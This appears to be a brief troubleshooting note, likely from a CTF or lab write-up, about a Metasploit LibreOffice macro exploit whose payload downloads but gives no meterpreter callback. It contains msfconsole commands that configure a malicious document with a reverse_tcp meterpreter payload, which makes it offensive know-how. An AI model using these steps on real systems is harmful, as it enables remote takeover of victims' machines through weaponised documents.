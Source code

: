 Trying the msf module my payload gets downloaded, but I don't get a meterpreter callback
```bash
msf6 > use exploit/multi/fileformat/libreoffice_macro_exec
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > set TARGET Linux
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > set LHOST tun0
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > exploit
```

Created the macro and assigned to open document:  
![macro.png](macro.png)  
![assign.png](assign.png)  
